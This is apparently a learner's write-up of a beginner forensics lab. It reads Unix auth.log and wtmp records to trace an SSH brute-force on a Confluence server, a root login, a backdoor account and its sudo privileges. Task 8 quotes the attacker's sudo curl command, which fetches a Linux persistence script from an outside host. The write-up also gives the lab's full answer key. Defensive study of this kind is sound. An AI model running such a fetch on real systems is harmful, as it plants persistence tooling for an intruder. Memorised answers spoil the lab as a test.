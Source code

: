 
Sherlock Scenario
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Task 1
Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

65.2.161.68

By checking the auth.log file provided, Its easy to notice the ip address trying out new user names in very short period of times.
![Pasted image 20240909113316](https://github.com/user-attachments/assets/2dd4fda5-b242-4cea-8069-4c58963a28eb)


Task 2
The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

root
Scrolling down the auth.log file, we notice a "Accepted password" for the user root
![Pasted image 20240909113802](https://github.com/user-attachments/assets/1d0d1b50-7201-4951-97d8-082ba20933be)


Task 3
Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

Getting the timestamp from the "session opened for user root" we get 2024-03-6 06:32:44, which is not accepted by the prompt as the correct answer, I open the wtmp file using "utmpdump" command (after searching in the internet how to open the file). and search for the user root and the ip address 65.2.161.68. We get the time 2024-03-06 06:32:45
![Pasted image 20240909113900](https://github.com/user-attachments/assets/ed2339cf-e893-4170-92f8-3c16f180fedf)
![Pasted image 20240909115811](https://github.com/user-attachments/assets/2411257d-8b0f-4ac6-ad62-81f7e89f0c73)


Task 4
SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

37

Just looking bellow the session opened log, we see a session assigned to the user root.
![Pasted image 20240909120541](https://github.com/user-attachments/assets/569f1514-b94e-4931-92b7-e7a46b75cdba)


Task 5
The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

cyberjunkie
Scrolling down, we see a new group is added to /etc/group and /etc/gshadow . This is suspicious. Further down the user is added to the sudo group.
![Pasted image 20240909120937](https://github.com/user-attachments/assets/e3604c37-04e9-4721-98a5-7b02a69826a1)


Task 6
What is the MITRE ATT&CK sub-technique ID used for persistence?

T1136.001

A simple google for matre attack framework on persistence, we note that Local Admin account was created,
![Pasted image 20240909121846](https://github.com/user-attachments/assets/5c2505f1-11a0-4a0e-bcfb-ef3952f671c7)

Task 7
How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

279

By subtracting the "New Session" from "Removed session" We observe that its 280 seconds. But the does not work. Using the wtmp file to trace the time, we subtract one and get the time as 279
![Pasted image 20240909124054](https://github.com/user-attachments/assets/d5f4f27e-587b-45da-b552-c75d99e6d1a6)
![Pasted image 20240909124145](https://github.com/user-attachments/assets/8a9617ee-6855-473c-9959-f9a25915f3c8)
![Pasted image 20240909124654](https://github.com/user-attachments/assets/ce40421d-c523-47dd-a01a-79fbaa1e15d0)
![Pasted image 20240909115811](https://github.com/user-attachments/assets/21e7e61a-67cd-40fc-ad66-29a3260e9df6)



Task 8
The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Checking the user cyberjunkie activities, we see this command
![Pasted image 20240909125228](https://github.com/user-attachments/assets/97e3b4e5-6537-45d1-9ffd-a8692379506c)


From this Sherlock, I learnt the importance of collaboration between different files or log types so as to come out with accurate results.
